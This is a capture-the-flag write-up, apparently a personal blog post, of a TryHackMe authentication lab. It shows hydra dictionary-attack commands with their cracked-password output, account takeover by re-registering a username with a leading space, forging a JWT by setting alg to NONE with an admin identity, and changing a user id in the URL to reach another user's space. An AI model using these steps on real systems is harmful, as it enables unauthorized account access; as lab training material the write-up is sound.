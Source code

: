 ```yaml
---
title: 'Exploiting Common Authentication Misconfigurations'
date: 2020-07-26 00:00:00
featured_image: '/images/posts/authenticate-icon.png'
excerpt: 'Authentication system helps keeping the unauthorized users away and plays a key role in a information technology systems. Know common type of attacks on authentication systems and common misconfigurations by developers.' 
---
```

![](/images/posts/authenticate.png)

Authentication is one of the key components of a system. With the rise of internet usage and the number of applications, authentication became a key part of information technology space. But when the application developers misconfigure such systems, it opens the door for unauthorized access.

This post shows attacks on the authentication system and also how a misconfigure JWT based system can be exploited, by following the [TryHackMe](https://tryhackme.com/room/authenticate) provided vulnerable application.  


### Attacks on Authentication Systems
Common attack methods used to exploit the authentication systems and networks:

- **Brute force attack** - attempts to guess the credentials based on all possible character combinations.
- **Dictionary attack** - is based on a file of words and common passwords to guess the credentials.    
- **Pass the hash attack** - in a pass the hash attack, the attacker discovers the hash of the user's password and then uses it to log on to the system as the user.
- **Birthday attack** - in this the attacker will be able to create a password that produces the same hash as the user's actual password and is also known as a hash collision.  A hash collision occurs when a hashing algorithm creates the same hash for two different inputs (passwords).  
- **Rainbow table attack** - in this the attacker attempts to discover the password by comparing the actual password hash with a huge database of precomputed hashes, called the Rainbow table.  
- **Replay attack** - capturing the data in a session with the intent of later impersonating one of the parties in the session.  

### Example misconfigurations
Here are some example misconfigurations and we can see how these can be exploited.  
- **Lack of input sanitization**  When a developer ignores the sanitization of user input like username and passwords in the application code, then such application is vulnerable to attacks like SQL injections, buffer overflow attack, Cross-site scripting (CSS).  
- **JSON Web Token (JWT) misconfiguration**  A JSON web token, or JWT (“jot”) for short, is a standardized, optionally validated and/or encrypted container format that is used to securely transfer information between two parties. A misconfiguration can lead to exploit the authentication system.  
- **NoAuth** This type of vulnerability is very rare, but when it occurs, we can access other userspace just by changing the user id in the URL after login.   

## In Action
**Deploy the VM from [TryHackMe](https://tryhackme.com/room/authenticate) to exploit the authentication vulnerabilities.**    

### 1. Dictionary Attack
1. Access the web application on port 8888, which requests to provide user name and password.
1. The attack can be performed with Burp (from intruder with Sniper) or using `hydra`.  Lets use `hydra` for this demo.
1. But before that, we need to capture the http request that is being used for authentication.
1. Start Burp tool and capture the http request by posting some random credentials, like Jack:testpwd.
   Below is the http post request that was captured.
 ```
    POST /login HTTP/1.1
    Host: 10.10.237.94:8888
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.237.94:8888/
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 26
    DNT: 1
    Connection: close
    Upgrade-Insecure-Requests: 1

    user=jack&password=testpwd
 ```
1. Using `hydra`, lets perform the dictionary attack (with file rockyou.txt) to get the password for  users:
   jack and mike.    
 ```bash
    $ hydra -l jack -P /usr/share/wordlists/rockyou.txt 10.10.237.94 -s 8888 http-post-form "/login:user=^USER^&password=^PASS^:invalid_credentials"
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-26 14:47:40
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
    [DATA] attacking http-post-form://10.10.237.94:8888/login:user=^USER^&password=^PASS^:invalid_credentials
    [8888][http-post-form] host: 10.10.237.94   login: jack   password: 12345678
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-26 14:47:57

    #mike
    $ hydra -l mike -P /usr/share/wordlists/rockyou.txt 10.10.237.94 -s 8888 http-post-form "/login:user=^USER^&password=^PASS^:invalid_credentials"
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-26 14:48:37
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
    [DATA] attacking http-post-form://10.10.237.94:8888/login:user=^USER^&password=^PASS^:invalid_credentials
    [8888][http-post-form] host: 10.10.237.94   login: mike   password: 12345
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-26 14:48:44
```

1. From above we can see, the attack was successful and the passwords for the users are `12345678` and `12345` respectively.
1. Login with the above credentials and capture the user flags:  
 `fad9ddc1fe--------a05f02dd89e271` and `e1faaa144df--------9284f4a5bb578`.


### Re-registration due to lack of input sanitization  
In this attack, instead of performing dictionary based, we will use the application vulnerability where the input sanitization is not performing while registering for a new account. Lets exploit this by registering a new account that resembles to target user account, but with a leading white space in the user name field.

There is a user `darren`, but we don't have the password, so let's create a new account as `\ darren` (notice a leading white space).  
Post account creation, log in with the new user ` darren`, but the application logs into `darren` and capture the flag fe86079416a--------37fea8874b667.

![](/images/posts/authenticate-sample-account.png){:height="60%" width="60%"}

Repeat the same procedure for user `arthur`, by creating a new user account with user name as `\ arthur` and login to capture the flag d9ac0f7d--------ac3edeb75d75e16e.

### JSON Web Token  

A JWT contains three parts in the format [ Header ].[ Payload ].[ Signature ]  
Please refer to the article for more details on [JWT](https://medium.com/ag-grid/a-plain-english-introduction-to-json-web-tokens-jwt-what-it-is-and-what-it-isnt-8076ca679843).

1. Access the web application on port 5000 and authenticate with user:user
1. Capture the JWT token either from Burp or using a browser-->web developer tools-->Storage--> Local Storage.  

JWT Token:
`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE1OTU3OTE2ODEsImlhdCI6MTU5NTc5MTM4MSwibmJmIjoxNTk1NzkxMzgxLCJpZGVudGl0eSI6MX0.bAPHetpdduqoY3_o2og5Et7W2Ies9VL3AKMntD1_2yA`  

Complete Post request:
```
GET /protected HTTP/1.1
Host: 10.10.237.94:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.237.94:5000/
Content-Type: application/json
Authorization: JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE1OTU3OTE2ODEsImlhdCI6MTU5NTc5MTM4MSwibmJmIjoxNTk1NzkxMzgxLCJpZGVudGl0eSI6MX0.bAPHetpdduqoY3_o2og5Et7W2Ies9VL3AKMntD1_2yA
DNT: 1
Connection: close
```

1. The first two parts of a JWT token can be decoded using base64 decoder or from this [JWT debugger](https://jwt.io/#debugger-io).  
![](/images/posts/jwt-debugger.png){:height="100%" width="100%"}
1. From the header decoded information, we can see, the algorithm using is `HS256` and in the payload, the identity is 1, which could be user ids.
1. Let us exploit the misconfigured application, where the authentication system is not validating the tokens properly.  
1. Modify the token by making the algorithm to NONE, identity as 0 (assuming 0 is the admin account) and the third part is not required as the algorithm is NONE.
1. Encode first two parts with base64 [encoder](https://www.base64encode.org):   
`{"typ":"JWT","alg":"NONE"}` --> `eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0=`
`{"exp": 1595791681, "iat": 1595791381,"nbf": 1595791381, "identity": 0}` --> `eyJleHAiOiAxNTk1NzkxNjgxLCAiaWF0IjogMTU5NTc5MTM4MSwibmJmIjogMTU5NTc5MTM4MSwgImlkZW50aXR5IjogMH0=`
1. The new JWT token for admin is now ready, `eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0=.eyJleHAiOiAxNTk1NzkxNjgxLCAiaWF0IjogMTU5NTc5MTM4MSwibmJmIjogMTU5NTc5MTM4MSwgImlkZW50aXR5IjogMH0=.` and replace this in the browser session and click GO.
1. We now logged into the application with the `admin` user as shown in the below image.  

![](/images/posts/JWT-admin-login.png){:height="60%" width="60%"}

### No Auth
As mentioned earlier, this type of vulnerability is very rare in today's application but exists when designed the application poorly.  

1. Access the application on port 7777.
2. Create a new account and login.  
3. Visit private space and you can notice the url `http://10.10.237.94:7777/users/1`
4. Change the user id 1 with 0, which access the superadmin's private space.  

### Conclusion
The Authentication and Authorization system are very critical in information technology space, a misconfigured system will open the door for attackers. Implementing the policies like Account lockouts, password complexities, salting the passwords, multi factor authentication, using strong hash algorithms for storing the credentials and performing the input sanitization when allowing users to input the data can help in avoiding the exploitation of authentication systems.  

###### References:  
1. Image and exploitable VM credits: [TryHackMe](https://tryhackme.com/room/authenticate)  
1. Gibson, D. (2014). Protecting Against Advanced Attacks. In CompTIA Security+ get certified get ahead SYO-401 study guide. YCDA, LLC.  
1. Koretskyi, M. (2018, June 26). A plain English introduction to JSON web tokens (JWT): what it is and what it isn't. Medium. https://medium.com/ag-grid/a-plain-english-introduction-to-json-web-tokens-jwt-what-it-is-and-what-it-isnt-8076ca679843.  
